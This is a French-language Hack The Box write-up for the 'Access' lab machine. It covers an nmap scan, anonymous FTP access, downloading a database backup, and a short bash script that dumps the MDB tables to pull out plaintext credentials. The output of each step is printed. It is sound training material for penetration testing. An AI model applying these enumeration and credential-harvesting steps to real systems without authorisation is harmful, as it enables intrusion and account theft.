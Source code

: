 # Access writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)

Informations
----
    Ip : 10.10.10.98       Created by : egre55
    Level : Very easy            Base Points : 20
    
Scan Nmap
----
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    23/tcp open  telnet?
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: MegaCorp
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
 Après avoir effectué le scan, nous avons 3 ports ouverts, le (21) pour le FTP, le (23) pour le telnet, et le (80) pour le httpd. Le FTP peut être accéder en tant que anonymous donc nous allons essayer d'énumérer.
 
FTP Enumeration
----
Pour la connexion au serveur FTP, l'utilisateur et le mot de passe 'anonymous:anonymous'.

    root@Computer:~/htb/writeup/Access# ftp 10.10.10.98
    Connected to 10.10.10.98.
    220 Microsoft FTP Service
    Name (10.10.10.98:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp>
 
 La connexion c'est déroulais avec succès donc essayons de lister les fichiers dans le dossier.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM       <DIR>          Backups
    08-24-18  09:00PM       <DIR>          Engineer
    226 Transfer complete.
    ftp>
    
Comme vous pouvez le voir, il y'a un dossiers Backups et un dossier Engineer. Dans le dossier Backups il y'a un fichier mdb, pour les bases de données, et dans le dossier Engineer il y'a un fichier zip. Donc nous allons transférer c'est fichiers vers notre machine physique avec la commande **mget [file]**, avant de transférer nous devons passer de ASCII à BINAIRE.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM              5652480 backup.mdb
    226 Transfer complete.
    ftp> binary
    200 Type set to I.
    ftp> mget backup.mdb
    mget backup.mdb? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    5652480 bytes received in 7.70 secs (716.7322 kB/s)
    ftp> cd ..
    250 CWD command successful.
    ftp> cd Engineer
    250 CWD command successful.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-24-18  12:16AM                10870 Access Control.zip
    226 Transfer complete.
    ftp> mget "Access Control.zip"
    mget Access Control.zip? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    10870 bytes received in 0.83 secs (12.7677 kB/s)
    ftp> 

Voilà les fichiers ont été transférer avec succès, sans aucun problème donc nous pouvons quitter le serveur FTP. Et d'énumérer c'est fichiers.

Enumeration MDB
----
Nous allons installer un petit programme pour dump tout ça. Vous devez installé le paquet **mdbtools** avec apt, vous pouvez aussi également utilisé la version GUI avec **mdbtools-gmdb2**.

Pour voir les tables utilisé la commande :

    root@Computer:~/htb/writeup/Access# mdb-tables -1 backup.mdb
    [...SNIP...]
    auth_user
    [...SNIP...]
    
J'ai créer un petit script en bash pour automatisé tout ça, et de chopper les mots de passes plus facilement grâce à mon petit script en bash.

    #!/bin/sh

    name_file=$1
    # This variable will be the file.

    for tables_names in $(mdb-tables -1 $name_file)
    do
      ExportCommand=("mdb-export $name_file $tables_names")
      # Will execute the command.
      if [ "$ExportCommand" != '' ]; then
        $ExportCommand|grep ,26,
      fi
    done
    
Et la sortie du fichier :

    root@Computer:~/htb/writeup/Access# bash server.sh backup.mdb 
    25,"admin","admin",1,"08/23/18 21:11:47",26,
    27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
    28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
    root@Computer:~/htb/writeup/Access#

Parfait nous avons des identifiants, alors si vous souhaitez utilisé mon outils n'oublie pas de mettre le nom du fichier. <br />
**bash server.sh backup.mdb**
